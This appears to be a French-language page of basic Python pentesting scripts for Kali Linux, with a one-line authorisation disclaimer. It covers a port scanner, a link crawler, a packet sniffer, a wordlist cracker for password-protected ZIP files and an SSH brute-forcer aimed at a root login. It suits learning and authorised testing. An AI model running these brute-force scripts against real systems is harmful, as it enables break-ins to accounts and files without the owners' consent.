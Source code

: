 # Quelques scripts Python utiles pour la cybersécurité que vous pouvez utiliser sur Kali Linux :
- Ces scripts doivent être utilisés de manière éthique et légale, toujours avec l'autorisation des propriétaires des systèmes que vous testez.
### 1. **Port Scanner**
```python
import socket

def port_scan(ip, start_port, end_port):
    for port in range(start_port, end_port + 1):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        socket.setdefaulttimeout(1)
        result = sock.connect_ex((ip, port))
        if result == 0:
            print(f"Port {port}: Open")
        sock.close()

ip = '127.0.0.1'  # Change this to the target IP
start_port = 1
end_port = 1024

port_scan(ip, start_port, end_port)
```

### 2. **Simple Web Crawler**
```python
import requests
from bs4 import BeautifulSoup

def web_crawler(url):
    try:
        response = requests.get(url)
        soup = BeautifulSoup(response.content, 'html.parser')
        for link in soup.find_all('a'):
            href = link.get('href')
            if href and href.startswith('http'):
                print(href)
    except requests.exceptions.RequestException as e:
        print(e)

url = 'http://example.com'  # Change this to the target URL
web_crawler(url)
```

### 3. **Password Cracker (Brute Force)**
```python
import zipfile

def extract_zip(zip_file, password):
    try:
        zip_file.extractall(pwd=password.encode())
        print(f"Password found: {password}")
        return True
    except:
        return False

zip_file = zipfile.ZipFile('protected.zip')  # Change this to the target ZIP file

with open('passwords.txt', 'r') as file:  # Change this to your password list
    for line in file.readlines():
        password = line.strip()
        if extract_zip(zip_file, password):
            break
```

### 4. **Network Sniffer**
```python
import socket

def sniff_packets():
    conn = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.ntohs(3))
    while True:
        raw_data, addr = conn.recvfrom(65536)
        print(f"Packet received from {addr}")

sniff_packets()
```

### 5. **SSH Brute Force**
```python
import paramiko

def ssh_brute_force(target_ip, username, password_list):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    for password in password_list:
        try:
            ssh.connect(target_ip, username=username, password=password)
            print(f"Password found: {password}")
            return
        except paramiko.AuthenticationException:
            continue

target_ip = '192.168.1.1'  # Change this to the target IP
username = 'root'  # Change this to the target username
password_list = ['password1', 'password2', 'password3']  # Add more passwords to the list

ssh_brute_force(target_ip, username, password_list)
```

